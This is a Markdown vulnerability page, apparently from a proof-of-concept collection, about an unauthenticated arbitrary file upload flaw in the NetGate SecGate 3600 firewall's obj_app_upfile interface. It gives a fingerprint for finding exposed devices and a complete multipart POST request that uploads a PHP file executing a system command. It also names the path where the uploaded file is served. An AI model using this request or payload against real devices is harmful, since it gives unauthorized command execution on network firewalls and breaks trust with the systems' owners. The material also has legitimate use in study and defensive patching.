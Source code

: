 # NetGate SecGate 3600 Firewall obj_app_upfile Any file upload vulnerability

## Vulnerability Description

NetGate 3600 Firewall Obj_app_upfile interface has any file upload vulnerability. The attacker can obtain server permissions by constructing a special request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Net God SecGate 3600 Firewall </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">fid="1Lh1LHi6yfkhiO83I59AYg==" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649350287241-cdcc761f-1cb6-4bb5-befa-ed101065a8bf.png)

Files with vulnerability webuui/modules/object/app.mds

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649487600829-f37244cf-d92a-4c43-845b-42b510536d21.png)

The file call is not authenticated in the code, and the file upload path is an accessible path, causing any file upload

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649487880029-bf876c08-7096-45a6-aafd-a94d7444bf9a.png)

```php
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

The default upload path /secgate/webuui/attachements/ is accessed to the attachments/xxx.php file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649488185594-245e1a3e-604c-42a3-8096-c5e94a6315bd.png)